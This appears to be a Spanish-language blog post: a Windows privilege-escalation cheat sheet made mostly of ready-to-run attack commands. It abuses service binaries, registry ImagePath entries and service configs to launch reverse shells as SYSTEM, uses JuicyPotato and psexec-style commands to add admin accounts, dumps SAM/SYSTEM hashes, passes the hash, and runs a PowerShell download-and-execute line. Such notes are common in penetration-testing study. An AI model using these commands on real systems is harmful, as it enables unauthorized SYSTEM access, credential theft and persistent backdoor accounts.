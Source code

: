 ```yaml
---
layout: post
title: WindPrivesc - CheetSheat
tags: [windows,CheetSheat]
description: "WindPrivesc - CheetSheat"
---
```


##  Exploits de servicio: ejecutables de servicio inseguros

 Observe que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME)

```
sc qc filepermsvc
```

Con accesschk.exe, tenga en cuenta que todos pueden escribir en el archivo binario de servicio (BINARY_PATH_NAME)

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Reemplazar el ejecutable por uno malicioso

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA

```
net start filepermsvc
```

----

##  Explotaciones de servicio: permisos de registro débiles

Consulte el servicio " regsvc"  y observe que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME) .

```
sc qc regsvc
```

Con accesschk.exe, tenga en cuenta que el grupo "NT AUTHORITY\INTERACTIVE" (esencialmente todos los usuarios conectados) puede escribir la entrada de registro para el servicio regsvc

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Sobrescriba la clave de registro de ImagePath para que apunte al ejecutable reverse.exe que creó:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA:

```
net start regsvc
```

-----

## Exploits de servicio: permisos de servicio inseguros

Use accesschk.exe para verificar los permisos de la cuenta de "usuario" en el servicio "daclsvc":

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

Tenga en cuenta que la cuenta de "usuario" tiene permiso para cambiar la configuración del servicio (SERVICE_CHANGE_CONFIG).  
Consulte el servicio y tenga en cuenta que se ejecuta con privilegios de SISTEMA (SERVICE_START_NAME):

```
sc qc daclsvc
```

Modifique la configuración del servicio y establezca BINARY_PATH_NAME (binpath) en el ejecutable reverse.exe que creó:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA:

```
net start daclsvc
```

----

## Unquoted Service Path

| argumento | descripción                                                      |
|---------  |------------------------------------------------------------------|
| findstr   | busca cadenas en los archivos                                    |
| /i        | Especifica que la búsqueda no distingue mayúsculas de minúsculas |
| /v        | Solo imprime líneas que no contienen una correspondencia         |

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

**sc**: Programa de línea de comandos usado para comunicarse con el Administrador de control de servicios y con los servicios.  
**qc**: Consulta la información de configuración de un servicio.

```
sc qc <service>
```

----

## AlwaysInstallElevated

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

----

## Grupos y permisos

### Accoutn operators

Otorga privilegios limitados de creación de cuentas a un usuario. Básicamente, esto puede crear y administrar usuarios y grupos en el dominio, incluida su propia membresía y la del grupo de Operadores de servidor.

[https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)

### SeImpersonatePrivilege

- juicyPotato
- PrintSpoofer

```
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user TEST TEST123 /add"
```

----

## Transferencia de archivos

```
powershell IEX(New-Object Net.WebClient).downloadString('<http://file>')
certutil.exe -f -urlcache -split <http://file>
IWR -uri <http://file> -OutFile <file>
```

----

## Pwned Psexec

```
cmd /c net user USERX PASSWORD /add
cmd /c net localgroup Administrators USERX /add
cmd /c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountFilterPolicy /t REG_DWORD /d 1 /f
```

----

## Volcado de hash

```
reg save HKLM\SYSTEM C:\temp\system
reg save HKLM\SAM C:\temp\sam
```

```
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

```
pwdump.py <SYSTEM> <SAM>
```

----

## Pass the hash

```
pth-winexe -U '<user>%<hash>' //<MACHINE_IP> cmd.exe
```

----

## Aplicaciones de inicio

```
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```

```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\Run'
```

----

## Tareas programadas

```
accesschk.exe /accepteula -quvw user <file>
```

----

## Aplicaciones de GUI inseguras

```
tasklist /V | findstr <program.exe>
```

----

## Contraseñas guardadas

```
cmdkey /list
```

```
runas /savecred /user:<user> C:\PrivEsc\reverse.exe
```

----

## Registro ejecuciones automaticas

```
accesschk.exe /accepteula -wvu
```

----

## RDP

```
rdesktop -u <user> -p <passsword> <ip>
```
